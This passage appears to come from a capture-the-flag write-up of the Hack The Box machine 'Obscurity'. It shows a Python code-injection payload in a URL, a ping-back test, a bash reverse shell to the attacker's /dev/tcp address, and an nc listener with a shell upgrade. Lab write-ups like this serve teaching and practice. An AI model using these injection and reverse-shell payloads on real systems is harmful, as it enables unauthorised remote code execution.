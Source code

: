# Abusing code-injection to get a shell
We can test code-execution on the server with a simple ping-back payload:
`';__import__('os').popen('ping -c 2 127.0.0.1').read();a='`

After url-encoding some of the characters, we can send following request:
```http
GET /';__import__('os').popen('ping%20-c%202%2010.10.14.2').read();a=' HTTP/1.1
Host: 10.10.10.168:8080
```
```console
root@silence:~# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
19:39:02.217462 IP 10.10.10.168 > silence: ICMP echo request, id 32182, seq 1, length 64
19:39:02.217488 IP silence > 10.10.10.168: ICMP echo reply, id 32182, seq 1, length 64
19:39:03.227853 IP 10.10.10.168 > silence: ICMP echo request, id 32182, seq 2, length 64
19:39:03.227870 IP silence > 10.10.10.168: ICMP echo reply, id 32182, seq 2, length 64
```
We have verified remote code execution with the ping response from the server. Let us get a shell next.

A simple bash reverse-shell should do the trick.
```python
';__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"').read();a='
```

Using curl, we get a shell:
```console
root@silence:~# curl $'http://10.10.10.168:8080/\';__import__(\'os\').popen(\'bash%20-c%20%22bash%20-i%20%3E&%20/dev/tcp/10.10.14.2/443%200%3E&1%22\').read();a=\''`
```
```console
root@silence:~# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.168.
Ncat: Connection from 10.10.10.168:46672.
www-data@obscure:/$
```
We get a shell as www-data returned. Let us quickly upgrade our shell to make working easier.

```console
www-data@obscure:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@obscure:/$ ^Z
[1]+  Stopped                 nc -lvnp 443
root@silence:~/ctf/htb/boxes/Obscurity# stty raw -echo
root@silence:~/ctf/htb/boxes/Obscurity# nc -lvnp 443

www-data@obscure:/$
```
Now with a fully working shell, we can enumerate the system and search for a privesc path.

